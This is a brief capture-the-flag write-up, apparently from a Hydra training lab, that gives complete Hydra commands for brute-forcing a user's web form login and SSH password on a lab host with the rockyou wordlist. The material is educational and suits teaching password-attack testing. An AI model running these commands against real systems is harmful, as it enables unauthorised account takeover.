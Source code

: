 
# Hydra writeup

### Task 1 
#### Use Hydra to bruteforce molly's web password. What is flag 1?

- To complete first task we need to use Hydra tool. The command to bruteforce login to website will be:
** hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V **

### Task 2
- To complete second task we have to change our command to bruteforce SSH:
```
**hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 -t 4 ssh**
```



